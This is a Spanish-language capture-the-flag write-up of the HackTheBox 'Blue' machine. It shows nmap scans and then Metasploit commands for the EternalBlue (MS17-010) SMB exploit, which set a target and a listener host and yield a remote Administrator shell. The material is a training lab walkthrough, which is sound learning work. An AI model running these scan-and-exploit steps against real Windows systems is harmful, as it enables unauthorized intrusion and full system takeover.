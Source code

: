 ```yaml
---
layout      : post
title       : "Blue - HackTheBox"
author      : elc4br4
image       : /assets/images/HTB/Blue-HackTheBox/Blue.webp
optimized_image : /assets/images/HTB/Blue-HackTheBox/Blue.webp
category    : [ htb ]
tags        : [ Windows ]
description : Tenemos una máquina nivel EASY Windows, en la que explotaremos la vulnerabilidad eternalblue del protocolo SMB, de forma automatizada con metasploit y no tendremos que escalar privilegios ya el propio exploit nos dará acceso al usuario Administrador.
---
```


Tenemos una máquina nivel EASY Windows, en la que explotaremos la vulnerabilidad eternalblue del protocolo SMB, de forma automatizada con metasploit y no tendremos que escalar privilegios ya el propio exploit nos dará acceso al usuario Administrador.

Write en video aquí --> [https://www.youtube.com/watch?v=WhwsoEtVrGo](https://www.youtube.com/watch?v=WhwsoEtVrGo)

![](/assets/images/HTB/Blue-HackTheBox/Blue2.webp)

[![HTBadge](https://www.hackthebox.eu/badge/image/533771)](https://www.hackthebox.com/home/users/profile/533771)

![](/assets/images/HTB/Blue-HackTheBox/Blue-rating.webp)

***


**Un pequeño INDICE**

1. [Reconocimiento](#reconocimiento).
    * [Reconocimiento de Puertos](#recon-nmap).
2. [Explotación](#explotacion).
    * [Metasploit](#metasploit).


***

# Reconocimiento [#](reconocimiento) {#reconocimiento}

***

## Reconocimiento de Puertos [🔍](#recon-nmap) {#recon-nmap}

Lanzamos el escaneo de puertos.

```nmap
PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```

Lanzamos un escaneo mas detallado para saber que servicios y versiones se ejecutan en los puertos existentes que hay abiertos.

```nmap
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-10-16T20:10:20
|_  start_date: 2022-10-16T19:29:57
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-10-16T21:10:17+01:00
|_clock-skew: mean: -19m59s, deviation: 34m37s, median: 0s
```

Lanzamos escaneo de vulnerabilidades usando un script que ya viene implementado en nmap, el script es `vuln`

```bash
# Comando para lanzar el script
-------------------------------
nmap -p145,139,445 -n -Pn --script=vuln 10.10.10.40
```

![](/assets/images/HTB/Blue-HackTheBox/nmap-vuln.webp)

Veremos que el sistema es vulnerable a smb-vuln-ms17-010 o eternalblue.

Asique procedo a explotar la vulnerabilidad.

![](/assets/images/HTB/Blue-HackTheBox/gif.gif)

# Explotación [#](explotación) {#explotacion}

***

## Metasploit [💣](#metasploit) {#metasploit}

Explotaré la vulnerabilidad a través de metasploit.

Buscando encuentro varios exploit, asique elijo el siguiente:

> `exploit/windows/smb/ms17_010_eternalblue`

![](/assets/images/HTB/Blue-HackTheBox/msf1.webp)

Configuro los parámetros del exploit:

```bash
# Ip de la máquina víctima
set RHOST 10.10.10.40
----------------------------
# Ip de mi máquina local (mi interfaz de la vpn)
set LHOST tun0
------------------------------------------------
# Lanzamos el exploit
exploit
---------------------
```

![](/assets/images/HTB/Blue-HackTheBox/msf2.webp)

Como podemos ver ya me he convertido en el usuario Administrador, por lo tanto ya podemos leer la flag user.txt y root.txt.

![](/assets/images/HTB/Blue-HackTheBox/flags.webp)

![](/assets/images/HTB/Blue-HackTheBox/fin.gif)

![](/assets/images/HTB/Blue-HackTheBox/share.webp)



